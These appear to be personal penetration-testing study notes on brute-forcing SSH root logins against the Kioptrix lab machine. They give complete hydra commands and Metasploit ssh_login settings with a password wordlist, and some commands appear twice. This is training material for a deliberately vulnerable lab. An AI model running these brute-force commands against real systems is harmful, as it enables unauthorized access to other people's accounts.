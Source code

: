 ![](https://graph.microsoft.com/v1.0/users('rachelcamurphy@gmail.com')/onenote/resources/0-d8c634d056f44f388b3c8f21b0f6989c!1-5CC9E121EFE9768B!6230/$value)

**Tools:**

- hydra
- metasploit

- Recalling that ssh isn't always a low hanging fruit.
- Keeping in mind the blue team, and if they can see us brute forcing.

**Using hydra to bruteforce ssh logins:**
 
```
hydra -l root -P /usr/share/wordlists/metasploit/ double tab to view all the wordlists

For the Kioptrix vulnerable machine try:

hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://<target IP>:22 -t 4 -V






set username root 
set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
set rhosts <Kioptrix IP> 
set rport 22
set threads 10 (this will be noisy & detected quickly)
set verbose true 




```
 
For the Kioptrix vulnerable machine try:
 
hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt ssh://<target IP>:22 -t 4 -V

**Syntax breakdown:**  
==-l : user==  
==-P : wordlist==  
==-t : thread count/ number of attempts==  
==-V : verbose==

**Using metasploit to bruteforce ssh logins:**  
msfconsole > search ssh > use auxiliary/scanner/ssh/ssh_login > options
 
- set username root
- set pass_file /usr/share/wordlists/metasploit/unix_passwords.txt
- set rhosts <Kioptrix IP>
- set rport 22
- set threads 10 (this will be noisy & detected quickly)
- set verbose true
